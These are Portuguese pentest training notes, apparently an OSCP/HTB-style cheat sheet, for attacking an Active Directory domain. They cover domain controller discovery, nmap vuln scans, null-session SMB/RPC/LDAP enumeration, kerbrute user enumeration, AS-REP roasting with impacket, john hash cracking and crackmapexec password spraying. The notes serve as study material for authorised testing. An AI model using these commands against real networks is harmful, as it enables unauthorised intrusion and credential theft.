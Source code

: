 1-ActiveDirectoryEnum
========================

Nesse primeiro momento o objetivo é comprometer uma máquina do domínio com as técnicas e comandos empregadas nesta página.

## 1 - Enumerar IP dos DCs, portas/serviços e nome de domínio

### 1 - Obtém IP address do DC (domain controller)

Como primeiro objetivo temos que levar em conta a enumeração de portas/serviços por meio do nmap e enumerar nome do domínio, assim como o IP dos domains controllers:

linux

    nslookup -type=srv _ldap._tcp.dc._msdcs.redecorp.br
    nslookup -type=srv _kerberos._tcp.EXMAPLE.COM
    nslookup -type=srv _kpasswd._tcp.EXAMPLE.COM
    nslookup -type=srv _ldap._tcp.EXAMPLE.COM
    nslookup -type=srv _ldap._tcp.dc._msdcs.EXAMPLE.COM

windows

    nslookup
    set type=all
    _ldap._tcp.dc._msdcs.redecorp.br

Outra opção seria:

    nltest /dclist:oscp.exam

    nltest /dclist:domainname
 
Vale considerar que este útlimo comando só funciona se a máquina já está no domínio.

### 2 - Obtém Dominio

    enum4linux -a <hostname>

#uma outra opção seria:

    enum4linux -a -A <hostname>

atenção com este comando, porque o domínio que me retornou não foi o mesmo identificado no comando anterior.

    crackmapexec smb <hostname>

### 3 - Obtém serviços

    sudo nmap -p- -Pn -T5 -n <hostname> | tee nmap_fullportstcp_output.txt

    sudo nmap -p- --max-retries 1 -Pn -T5 -n <hostname> | tee nmap_fullportstcp_output.txt

Vulns scan nmap

    sudo nmap -sS --script vuln -n -T5 -Pn <hostname> -p <ports> | tee nmap_vulns.txt

Esta última parte pode ser vista com mais detalhes em:

<https://app.gitbook.com/o/2Zy5rWlDaAhU300B2fZ9/s/2fOHXOTMpimVG5xlFKld/2_Enumeration/enumeration-resumo-2024-02-10t20_25_35>

Como exemplo mais comum encontrados nos cenários, segue as enumerações mais convenientes para os ambientes de ADs (mas não se resume somente a isso, é necessário cosultar melhor as demais informações no link acima)...

Enumerate shares null session

    smbclient -U '' -N -L <hostname>

    crackmapexec smb <hostname> -u '' -p '' --shares

    sudo nmap -p 445,139 -Pn -T5 <hostname> --script smb-enum-shares

GUEST ACCESS

    smbclient -U 'guest%' -N -L <hostanme>

    crackmapexec smb <hostname> -u '' -p '' --shares

RPC null session

    rpcclient -N -U '' <hostname>

    srvinfo
    querydominfo
    enumdomusers
    enumdomgroups
    querygroup 0x200
    netshareenum
    netshareenumall

Enumerate LDAP


    ldapsearch -x -H ldap://<hostname> -D '' -w '' -b "DC=<domain_name>,DC=<tld>"

## 2 - Enumeração de usuário de domínio

Aqui vale considerar que, por meio da enumeração devemos considerar os possíveis arquivos existentes que conseguimos obter e fazer possíveis nomes de usuários com esses conteúdos,. No demais, seguem comandos que podem nos auxiliar quanto a esta tarefa:

Via Kerberos

    kerbrute userenum -d <domain> --dc <hostname> users_temp.txt

    kerbrute userenum --domain <domain> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc <hostname>

    nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='test.local',userdb=usernames.txt <hostname>

Via RPC

    rpcclient -U <domain>/<username> <hostname>
    rpcclient -U "DOMAIN\\" <hostnames> -N
    enumdomusers
    enumdomgroups

Enum4linux

    enum4linux -u <username> -p <password> -U 10.10.10.179

Via SMB

    crackmapexec smb <hostname> --users

Ldapsearch

    ldapsearch -x -H ldap://<hostname> -D '' -w '' -b "DC=<domain_name>,DC=<tld>"


Via Web

Não existe um comando específico para obter noomes de usuários específicos, por motivos óbvios, porém, podemos gerar possíveis nomes de usuários com o cewl, com o seguinte comando:

    cewl http://<hostname>/ > users_temp.txt

## 3 - Obter hashes de senha/senha ou exploits de serviços expostos e brute force
  
Este ponto é bem interessante, porque aqui temos várias possibilidades disponíveis e algumas delas deixarei documentado em uma outra página que depois deixarei o link. Mas para fins de AD, podemos considerar os principais que seriam:

### AS-REP Roasting

    impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile users_temp.txt -format john -outputfile hashes_temp.txt

Se der sucesso:

    john --format=krb5asrep -w /usr/share/wordlists/rockyou.txt hashes_temp.txt

Exploração de serviço
Neste caso, devemos considerar outra página para conseguir algum tipo de exploração. De modo geral, são:
Web - SQLi
CVEs
Chaves expostas por meio de aplicações web
Exposição de senhas via GPP - Group.xml
Password Spray
Aqui podemos aplicar algumas técnicas sendo elas user = password, mais os usuários que já temos no dicionário:

    cat users.txt > passwords.txt
    crackmapexec ldap hosts.txt -u users.txt -p P@ssword! --continue
    
    crackmapexec smb hosts.txt -u users.txt -p passwords_test.txt --continue
    
    crackmapexec winrm hosts.txt -u users.txt -p passwords_test.txt --continue

## 4 - Enumerar o domínio sem credencial

    
